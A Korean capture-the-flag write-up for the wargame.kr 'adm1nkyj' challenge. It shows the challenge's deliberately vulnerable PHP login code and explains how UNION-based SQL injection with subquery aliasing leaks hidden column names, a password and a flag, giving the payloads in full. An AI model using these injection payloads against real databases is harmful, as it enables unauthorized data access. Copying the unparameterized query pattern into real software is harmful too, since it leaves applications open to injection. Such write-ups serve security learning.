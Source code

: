 ## [wargame.kr] adm1nkyj (풀이 봄)
---

```php
<?php
    error_reporting(0);
    
    include("./config.php"); // hidden column name, $FLAG.

    mysql_connect("localhost","adm1nkyj","adm1nkyj_pz");
    mysql_select_db("adm1nkyj");

    /**********************************************************************************************************************/

    function rand_string()
    {
        $string = "ABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890abcdefghijklmnopqrstuvwxyz";
        return str_shuffle($string);
    }

    function reset_flag($count_column, $flag_column)
    {
        $flag = rand_string();
        $query = mysql_fetch_array(mysql_query("SELECT $count_column, $flag_column FROM findflag_2"));
        if($query[$count_column] == 150)
        {
            if(mysql_query("UPDATE findflag_2 SET $flag_column='{$flag}';"))
            {
                mysql_query("UPDATE findflag_2 SET $count_column=0;");
                echo "reset flag<hr>";
            }
            return $flag;
        }
        else
        {
            mysql_query("UPDATE findflag_2 SET $count_column=($query[$count_column] + 1);");
        }
        return $query[$flag_column];
    }

    function get_pw($pw_column){
        $query = mysql_fetch_array(mysql_query("select $pw_column from findflag_2 limit 1"));
        return $query[$pw_column];
    }

    /**********************************************************************************************************************/

    $tmp_flag = "";
    $tmp_pw = "";
    $id = $_GET['id'];
    $pw = $_GET['pw'];
    $flags = $_GET['flag'];
    if(isset($id))
    {
        if(preg_match("/information|schema|user/i", $id) || substr_count($id,"(") > 1) exit("no hack");
        if(preg_match("/information|schema|user/i", $pw) || substr_count($pw,"(") > 1) exit("no hack");
        $tmp_flag = reset_flag($count_column, $flag_column);
        $tmp_pw = get_pw($pw_column);
        $query = mysql_fetch_array(mysql_query("SELECT * FROM findflag_2 WHERE $id_column='{$id}' and $pw_column='{$pw}';"));
        if($query[$id_column])
        {
            if(isset($pw) && isset($flags) && $pw === $tmp_pw && $flags === $tmp_flag)
            {
                echo "good job!!<br />FLAG : <b>".$FLAG."</b><hr>";
            }
            else
            {
                echo "Hello ".$query[$id_column]."<hr>";
            }
        }
    } else {
        highlight_file(__FILE__);
    }
?>
```

## Solution
---

핵심은 pw, flag 컬럼명을 알아내는 것이다. 

처음엔 sys schema로 시도했으나 version을 확인해보니 mariadb 5.5.64 버전이다. 

이 버전에는 sys schema가 없는 듯하다. (값이 출력되지 않는다.)

그래서 mysql 스키마로도 해봤으나 어떤 테이블에서도 값이 출력되지 않았다..

해서 풀이를 조금 보았다..

<br>

pw 컬럼명을 알아내는 건 굉장히 간단했다. **(이걸 왜 생각 못했는지 반성해라..)**

우선 나는 union을 통해 ```union select 1,2,3,4,5```을 해서 컬럼이 5개이며 2번째 값이 id 컬럼임을 확인했다.

<br>

```SELECT * FROM findflag_2 WHERE $id_column='{$id}' and $pw_column='{$pw}'```

위의 쿼리에서 id, pw 컬럼이 php 변수로 되어 있어 알 수가 없다. 

하지만 만약 쿼리가 ```SELECT * FROM findflag_2 WHERE $id_column='' union select 1,' and $pw_column=',3,4,5 #'```이 된다면 ```and $pw_column=```이 출력이 될 것이다.
: 이 값은 pw 컬럼명을 담고 있다. 

출력 결과 pw 컬럼명은 ```xPw4coaa1sslfe``` 이다.

그래서 비밀번호를 출력해보면 ```!@SA#$!```이다. 이제 flag 값만 구하면 된다.

<br>


대망의 플래그 컬럼과 값을 알아내는 방법이다..

우선 rubiya 테이블은 아래와 같다.

<br>

![image](https://user-images.githubusercontent.com/52172169/171363354-e9400109-48fe-47c4-a0db-8a7c521c90b4.png)

<br>

알아둘 점은 union을 통해 하나의 테이블로 출력하고자 할 때, union 뒤쪽에 있는 쿼리의 결과 값은 앞의 쿼리의 결과 값 밑에 붙여저서 출력된다.

flag 컬럼 값을 어떻게 출력하는가 하면 서브쿼리와 alias를 통해 가져올 수 있다.

<br>

예를 들어, rubiya 테이블에 있는 결과 값을 컬럼명을 다르게 해서 가져오고 싶다라고 할 때 아래와 같은 쿼리로 가져올 수 있다.
: ```select 1,2,3 union SELECT * FROM rubiya```

<br>

![image](https://user-images.githubusercontent.com/52172169/171366590-3f9e47f3-6f77-4747-a0c8-d7b450edf3b0.png)

<br>

따라서 이 쿼리 결과를 테이블로 사용한다면? 결과는 아래와 같다.
: ```select * from rubiya where id='' union select * from (select 1,2,3 union select * from rubiya) x```

<br>

![image](https://user-images.githubusercontent.com/52172169/171368628-a4c2b5ca-3e47-4605-9f21-2c4eb8b33ef3.png)

<br>

문제에서는 id 컬럼만 보여주는데, id 컬럼은 2번째에 위치해있다. 

따라서 alias를 통해 플래그가 들어있는 위치를 alias를 해준 다음 그 값을 id 컬럼이 위치한 2번째에 넣어주면 된다.

말로는 모르겠으니 직접 보면 먼저 ```1.rubiya 테이블의 값들을 가져올 건데 컬럼명을 1,flag,3으로 가져온 다음 그 결과를 테이블로 사용```하였다.

두 번째로 그 테이블에서 1,flag,3 컬럼명을 가져왔다.

<br>

```select * from rubiya where id='' union select 1,flag,3 from (select 1,2 as flag,3 union select * from rubiya) x```

<br>

![image](https://user-images.githubusercontent.com/52172169/171370059-7fd4a72d-e803-474a-809e-baa12a9e1c84.png)

<br>

이를 이용해서 findflag_2의 값을 가져올 건데 flag가 있을만한 위치를 alias를 해준 다음 그 결과 값을 테이블로 사용해서 2번째 위치에 alias를 넣어서 출력해준다.
: ```SELECT * FROM findflag_2 where id='' union select 1,flag,3,4,5 from (select 1,2,3,4 flag,5 union select * from findflag_2) x limit 1,1 #```

<br>

그러면 flag 값이 나온다.

이제 id, pw, flag 모두 구했으므로 입력을 해주면 Flag를 구할 수 있다...

## 풀이 출처
---

Link : <a href="https://posix.tistory.com/27" target="_blank">posix.tistory.com/27</a>
